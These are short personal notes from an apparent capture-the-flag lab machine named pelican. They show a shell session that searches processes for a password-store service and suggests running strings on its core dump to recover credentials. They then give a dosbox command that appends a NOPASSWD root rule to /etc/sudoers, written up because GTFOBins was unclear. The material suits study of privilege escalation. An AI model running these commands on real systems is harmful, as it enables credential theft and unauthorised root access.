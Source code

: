 ```
charles@pelican:/opt/zookeeper$ ps aux | grep pass
ps aux | grep pass
root       513  0.0  0.0   2276    72 ?        Ss   10:56   0:00 /usr/bin/password-store
charles   9657  0.0  0.0   6076   884 pts/0    S+   11:30   0:00 grep pass
```
```
strings core.513
```
## dosbox Privilege Escalation
>[!warning]
>因為GTFobins沒有講得很清楚，所以做一個筆記
``` title:add_user_commander_to sudoers
LFILE='/etc/sudoers'
/usr/bin/dosbox -c 'mount c /' -c "echo commander ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```
